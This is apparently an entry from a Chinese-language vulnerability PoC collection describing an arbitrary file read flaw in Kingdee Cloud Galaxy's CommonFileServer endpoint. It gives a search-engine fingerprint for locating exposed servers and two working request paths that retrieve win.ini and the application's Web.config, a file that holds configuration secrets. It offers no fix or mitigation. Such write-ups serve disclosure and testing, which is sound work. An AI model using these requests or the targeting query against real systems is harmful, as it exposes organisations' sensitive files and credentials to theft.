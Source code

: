 # 金蝶OA 云星空 CommonFileServer 任意文件读取漏洞

## 漏洞描述

金蝶OA 云星空 CommonFileServer接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件，进一步攻击服务器

## 漏洞影响

金蝶OA 云星空

## 网络测绘

```
app="金蝶云星空-管理中心"
```

## 漏洞复现

登陆页面

![image-20230828142952286](images/image-20230828142952286.png)

验证POC

```
/CommonFileServer/c%3a%2fwindows%2fwin.ini
/CommonFileServer/C%3A%5CProgram%20Files%20%28x86%29%5CKingdee%5CK3Cloud%5CWebSite%5CWeb.config
```

![image-20230828143007869](images/image-20230828143007869.png)